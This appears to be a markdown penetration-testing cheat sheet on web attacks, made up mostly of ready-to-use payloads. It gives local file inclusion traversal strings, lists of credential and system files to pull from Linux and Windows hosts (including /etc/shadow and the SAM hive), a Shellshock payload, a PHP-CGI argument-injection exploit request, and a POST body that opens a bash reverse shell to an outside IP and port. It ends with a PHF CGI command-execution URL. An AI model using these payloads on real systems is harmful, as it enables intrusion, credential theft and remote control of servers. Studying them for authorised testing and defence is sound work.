

# Tools
  * Burp Spidering
  * Nikto
  * Dirbuster
  * Dirb


## SQL Injection

....

----------------
# Local File Inclusion (LFI)
In versions of PHP below 5.3 can terminate with a null byte
```
?name=Haxor&type=2&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00
```

## Enumerating LFI
*Code:*
```php
<?php
  $file = $_GET[‘file’];
  if(isset($file))
  {
    include(“pages/$file”);
  }
  else
  {
    include(“index.php”);
  }
?>
```

*Testing for LFI:*
```
/script.php?page=../../../../../../../../etc/passwd
```

## Exfiltrate Linux Files
```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root

...log files
```

## Exfiltrate Windows Files
```
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt
```

## PHP CGI-Bin Exploits

**Exploiting ShellShock via CGI-Bin - [CVE-2014-6271]**
<br/>

```
() { :;}; echo $(</etc/passwd)
```
----------------
**Detect / Exploit PHP CGI Bug - [CVE-2012-1823]**
<br/>
_Detection:_
```
nmap -p 80, 8080, 443 --script http-cve2012-1823
http://vulnerable/?-s
```

_Exploitation:_
```
POST /?-%64+allow_url_include%3dOn+-%64+safe_mode%3d0+-d+suhosin.simulation%3d1+--define+disable_functions%3d%22%22+-%64+open_basedir%3dnone+-%64+auto_prepend_file%3dphp://input+--define+cgi.force_redirect%3d0+--define+cgi.redirect_status_env%3d0+-%6e HTTP/1.1
```

_POST Body Reverse TCP Shell_
```
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.11.4/4444 0>&1'");die; ?>
```
----------------
**PHF CGI Remote Command Execution - [CVE-1999-0067]**
```
http://www.thesite.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd

```
